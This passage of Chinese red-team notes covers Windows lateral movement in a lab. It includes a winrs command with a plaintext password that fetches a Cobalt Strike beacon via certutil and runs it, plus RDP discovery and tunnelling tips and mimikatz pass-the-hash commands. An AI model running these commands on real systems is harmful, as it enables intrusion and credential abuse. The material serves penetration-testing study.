 利用：

```cmd
执行命令
上线cs
winrs -r:192.168.3.21 -u:192.168.3.21\administrator -p:Admin12345 "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe beacon.exe && beacon.exe"
```

## 0x002 RDP（3389端口）

RDP是Windows的远程桌面连接服务，其端口是3389端口。rdp可以明文也可以hash连接。

不出网机器连接rdp方式：

- 直接进行vnc桌面交互再去利用mstsc连接其他主机；（利用出网的机器去连接）
- 开启socks代理，mstsc连接；（代理转发）
- 端口转发，建立隧道，将端口转发出来。

#### 探测扫描

1. 探测服务是否开启：（手动探测）
   
   在cs中输入以下命令：
   ```shell
   shell tasklist /svc | find "TermService"   # 找到对应服务进程的PID
   shell netstat -ano | find "PID值"            # 找到进程对应的端口号
   ```
   
   ![截图](da747badf8b20d8ac2ca98b15d683553.png)
2. cs中主动端口扫描

![截图](0919b893776309dd38d27c0930341767.png)

#### 连接

1. 明文连接：
   
   注意：使用一下这个方法，需要先在cs中设置代理转发！！！
   ```shell
   mstsc /console /v:192.168.3.32 /admin
   ```
   
   ![截图](c509e25f576da0ddf2fae4170d7543d7.png)
   
   ![截图](99587be9bbfffea75ea485e9e1b42b8c.png)
2. 使用hash连接（在cs中）

```shell
本地用户
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.3.32 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:mstsc /restrictedadmin"
域用户
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:god/administrator /domain:god /ntlm:518b98ad4178a53695dc997aa02d455c "/run:mstsc /restrictedadmin"
```
